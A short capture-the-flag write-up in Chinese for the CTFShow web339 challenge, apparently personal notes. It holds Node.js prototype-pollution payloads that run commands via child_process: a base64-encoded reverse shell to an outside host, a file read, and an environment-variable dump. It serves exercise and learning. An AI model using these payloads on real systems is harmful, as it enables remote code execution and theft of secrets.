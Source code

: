 CTF/WP/CTFShow/web339
title:: CTFWEB/WP/CTFShow/web339

- # 施工中
	- ```js
	  require("child_process").spawnSync(
	    'ls'
	  ).stdout.toString()
	  
	  ```
	- ```js
	  return global.process.mainModule.constructor._load('child_process').spawnSync(
	    'ls'
	  ).stdout.toString()
	  ```
	- ```json
	  {"__proto__":{"query":"try {return require('child_process').exec(atob('YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC9jYS5yYXl3aGF0Lnh5ei8zMDAxIDA+JjEi'))}catch(e){}"}}
	  ```
	- ```js
	  return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync(atob('Y2F0IC9mKg==')).toString();}catch(e){return e;}})();
	  ```
- # 最终Payload
	- id:: 630b629d-0265-452f-9683-824e175ef101
	  ```json
	  {"__proto__":{"query":"return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync('echo $(ls .) $(env)').toString();}catch(e){return e;}})();"}}
	  ```
- # 解法
	- 本题可以通过`/login`界面污染`query`参数，然后通过`/api`界面利用`query`参数执行任意参数。
	- 首先在`/login`界面交上如上Payload
		- {{embed ((630b629d-0265-452f-9683-824e175ef101))}}
	- 然后在`/api`界面执行。
	- ^^Payload最好别包含换行和多余的空格^^